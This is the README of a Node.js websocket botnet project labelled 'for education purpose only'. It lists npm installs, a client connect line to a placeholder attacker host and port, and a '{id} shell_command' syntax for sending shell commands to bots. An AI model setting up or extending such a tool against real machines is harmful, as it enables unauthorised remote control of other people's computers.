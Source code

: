 
# Botnet using websocket (Node)

NodeJS Botnet using websocket to interact between clients & server. Use it at your own risks (for education purpose only).

## Installation

Use the package manager [npm](https://nodejs.org/en/download/) to install some packages (all includes in intallation.bat)

```bash
npm install websocket
npm install colors
npm install child_process
npm install http
npm install readline-sync
```

## Settings (same as reverse-shell-js)

edit the last line of client.js by adding your ip adress or using localhost if both of them are on the same network.
```javascript
client.connect('ws://IP-OR-DOMAIN:PORT', 'echo-protocol');
```
editing server.js for the connection port at port variable, line 8 :
```javascript
let port = 8080;
```

## Usage

> $ {id} shell_command

![image](https://user-images.githubusercontent.com/65828028/124164591-1f05dd80-daa1-11eb-99a8-974086eb4cde.png)

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[GNU AGPLv3](https://choosealicense.com/licenses/agpl-3.0/)

